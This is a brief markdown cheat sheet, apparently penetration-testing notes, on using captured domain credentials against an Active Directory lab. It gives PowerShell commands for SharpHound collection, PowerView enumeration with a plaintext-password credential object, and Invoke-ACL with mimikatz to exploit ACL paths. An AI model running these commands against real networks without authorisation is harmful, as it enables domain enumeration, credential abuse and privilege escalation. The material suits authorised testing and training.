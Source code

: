 # With Domain Creds
## Run SharpHound remotely with creds
```powershell
# the netonly command means creds are only used for network access
runas /netonly /user:lab.local\administrator cmd.exe

# verify we are using the correct creds using
net view \\machine.lab.local\

# run bloodhound remotely, pass -d argument to specify the domain name
C:\tools\SharpHound-v1.0.4 -d "lab.local"
```

## Run PowerView remotely with creds
1. Import powerview
```powershell
import-module .\powerview.ps1
```

2. Setup the credentials object
```powershell
$passwd = ConvertTo-SecureString "P@ssw0rd" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("lab.local\admin", $passwd)

Get-NetDomainController -Credential $creds 
```

## Run Invoke-ACL-Pwn Remotely with creds
```powershell
# add the -WhatIf flag to view pathes before exploitation
.\Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -Username 'testuser' -Domain 'xenoflux.local' -Password 'Welcome01!'
```